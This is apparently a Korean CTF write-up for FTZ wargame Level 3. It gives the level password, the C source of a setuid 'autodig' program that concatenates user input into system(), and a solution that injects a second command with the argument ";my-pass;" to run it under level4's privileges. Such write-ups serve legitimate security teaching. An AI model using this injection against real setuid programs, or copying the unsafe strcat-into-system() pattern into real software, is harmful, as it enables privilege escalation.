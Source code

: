 ```yaml
---
sort: 3
---
```


# Level 3

```note
id : level3

password : can you fly?
```

hint를 보면 autodig의 소스코드를 뱉는다.

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
 
int main(int argc, char **argv){
 
    char cmd[100];
 
    if( argc!=2 ){
        printf( "Auto Digger Version 0.9\n" );
        printf( "Usage : %s host\n", argv[0] );
        exit(0);
    }
 
    strcpy( cmd, "dig @" );
    strcat( cmd, argv[1] );
    strcat( cmd, " version.bind chaos txt");
 
    system( cmd );
 
}
```

아래와 같이 autodig에는 setuid가 걸려있어서 실행하면 level4의 권한을 얻게된다.

```bash
[level3@ftz level3]$ ls -al `which autodig`
-rwsr-x---    1 level4   level3      12194 Sep 10  2011 /bin/autodig
```

소스코드를 보니 최종적으로 `dig @argv[1] version.bind chaos txt`가 실행되는 것을 알 수 있다.<br>
dig가 뭘 하는지는 관심없고, 우리는 그저 level4의 비밀번호를 얻는게 목적이니 `;my-pass;`를 넣어준다.<br><br>
`;my-pass;`를 큰따옴표로 감싸야 세미콜론을 문자열로써 인식하게 된다. 

```bash
[level3@ftz level3]$ autodig ";my-pass;"
```

```tip
## 알게 된 점

shell 한 줄에서 여러 명령어 실행하기
```